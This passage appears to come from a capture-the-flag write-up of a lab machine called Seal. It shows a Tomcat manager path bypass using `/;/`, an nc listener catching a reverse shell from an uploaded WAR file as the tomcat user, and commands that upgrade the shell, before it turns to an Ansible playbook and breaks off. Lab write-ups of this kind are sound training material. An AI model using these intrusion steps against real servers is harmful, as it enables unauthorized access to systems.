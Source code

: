 In burp we also change the url like before putting `/;/` between `manager` and `html`.
Next we set up a listener on the port we specified before.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We can trigger the uploaded shell by simply clicking on it.

[![uploaded_war](/img/seal/uploaded_war.png)](/img/seal/uploaded_war.png)

Almost instantly we get a shell as the tomcat user back on our nc listener, which we upgrade and fix the terminals size.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.173.76.
Ncat: Connection from 10.129.173.76:47312.
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$ export TERM=xterm
export TERM=xterm
tomcat@seal:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

tomcat@seal:/var/lib/tomcat9$ stty rows 55 cols 236
```

## Ansible playbook

Looking around we find a file that looks just like an `ansible-playbook` configuration file.


[{% raw %}WARNING{% endraw %}]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[{% raw %}WARNING{% endraw %}]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set 'command_warnings=False' in ansible.cfg to